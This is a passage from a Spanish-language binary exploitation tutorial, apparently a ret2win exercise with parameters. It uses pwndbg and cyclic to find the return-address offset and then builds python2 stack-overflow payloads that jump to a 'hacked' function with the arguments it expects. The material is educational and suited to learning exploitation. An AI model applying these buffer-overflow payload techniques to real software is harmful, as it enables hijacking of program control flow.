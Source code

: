 Vemos que se produce un error de segmentación (igual que antes). Si revisamos el contenido del puntero de instrucción (`EIP`), es decir, la *dirección de retorno*:

```gdb-pwndbg
[...]
*EIP  0x61616168 ('haaa')
[...]
```

Vemos que se ha sobrescrito con `haaa`, podemos calcular el *offset* con *cyclic*:

```bash
cyclic -l haaa
```
```cyclic
28
```

Vamos a crear un *payload* con python2 para que al igual que en la [sección anterior](02_Return_To_Win_(Ret2Win)), al terminar de ejecutar la función *register_name*, en lugar de volver a *main*, la dirección de retorno sea la de *hacked*. Para ello debemos ver cuál es la dirección de *hacked*, lo haremos descompilando la función y viendo la dirección de la primera línea:

```gdb-pwndbg
disassemble hacked
```
```gdb-pwndbg
Dump of assembler code for function hacked:
   0x08049182 <+0>:	push   ebp
   [...]
```

Ya podemos crear el *payload* (recordad que es *little-endian* ó *LSB*, por lo que va al revés):

```bash
python2 -c 'print "A"*28 + "\x82\x91\x04\x08" + "BBBB" + "CCCC" + "DDDD"' > payload
```
> Recordad redirigir la salida a un archivo, ya que al copiar y pegar se realiza una conversión que cambia el valor del *payload*.

Después de la dirección hemos añadido tres parámetros más, las *B* representan el puntero de pila (*stack pointer*); y las *C* y *D*, los dos argumentos que recibe la función. Si ejecutamos pasándole el *payload*:

```gdb-pwndbg
run < payload
```
```ret2win_params
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAAAAA�BBBBCCCCDDDD
Unauthorised access to secret function detected, authorities have been alerted!!
```

Vemos que ha entrado en la función *hacked* pero como era de esperar, tenemos que dar un valor a los parámetros. Como vimos en el código fuente, el primer parámetro debe ser `0xdeadbeef` y el segundo `0xc0debabe`, así que modificamos el *payload*:

```gdb-pwndbg
python2 -c 'print "A"*28 + "\x82\x91\x04\x08" + "BBBB" + "\xef\xbe\xad\xde" + "\xbe\xba\xde\xc0"' > payload
```
> Las *B* las dejamos, ya que son el puntero de pila.
